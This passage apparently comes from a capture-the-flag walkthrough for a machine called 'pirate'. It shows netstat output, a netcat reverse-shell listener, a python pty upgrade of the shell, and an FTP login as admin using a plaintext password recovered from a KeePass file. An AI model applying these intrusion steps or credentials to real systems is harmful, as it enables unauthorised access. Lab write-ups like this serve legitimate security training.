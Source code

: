 ```
$ netstat -tlpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:8000            0.0.0.0:*               LISTEN      17137/python3       
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:21            0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -    
```

## Shell as admin

Only localhost are opened for ftp . so i will login with user pass ftp in `Database.kdbx` file . 

```
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 32794
sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@pirate:/var/www/html/secretpage/admin$ ftp localhost
ftp localhost
Connected to localhost.
220 (vsFTPd 3.0.5)
Name (localhost:www-data): admin
admin
331 Please specify the password.
Password: 7#GpL@9sF!2o

230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> pwd
pwd
Remote directory: /srv/ftp/admin
```


Now we successfully login ftp as admin user , the ftp directory in `/srv/ftp/admin` 
